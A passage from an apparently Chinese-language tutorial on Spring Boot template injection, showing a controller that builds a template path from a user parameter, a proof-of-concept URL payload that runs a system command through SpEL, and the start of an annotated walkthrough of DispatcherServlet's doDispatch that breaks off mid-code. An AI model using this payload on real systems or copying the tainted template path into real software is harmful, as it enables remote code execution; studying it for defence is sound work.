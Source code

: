 #### 例子1

观察下面控制函数

```plain
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

正确的payload：  
`/path?lang=en`  
POC:  
`/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`

分析：

### 4.4 SpringBoot请求解析

#### 请求路由

分析DispatcherServlet.class的doDispatch函数

```plain
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;
    // 获取用于处理异步请求的WebAsyncManager对象
    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        try {
            // 视图
            ModelAndView mv = null;
            // 异常
            Exception dispatchException = null;

            try {
                // 检查是否是多部分请求，并对请求进行处理
                processedRequest = this.checkMultipart(request);
                // 如果经过处理的请求对象与原始请求对象不同，说明请求是多部分请求，将multipartRequestParsed标志设置为true
                multipartRequestParsed = processedRequest != request;
                // 获取处理器的执行链
                mappedHandler = this.getHandler(processedRequest);
                // 如果没有找到合适的处理器，调用noHandlerFound方法进行处理，并直接返回
                if (mappedHandler == null) {
                    this.noHandlerFound(processedRequest, response);
                    return;
                }
                // 获取与处理器关联的处理器适配器
                HandlerAdapter ha = this.getHandlerAdapter(mappedHandler.getHandler());
                // 获取请求方法
                String method = request.getMethod();
                boolean isGet = "GET".equals(method);
                if (isGet || "HEAD".equals(method)) {
                    // 获取最近修改情况
                    long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                    if ((new ServletWebRequest(request, response)).checkNotModified(lastModified) && isGet) {
                        return;
                    }
                }
```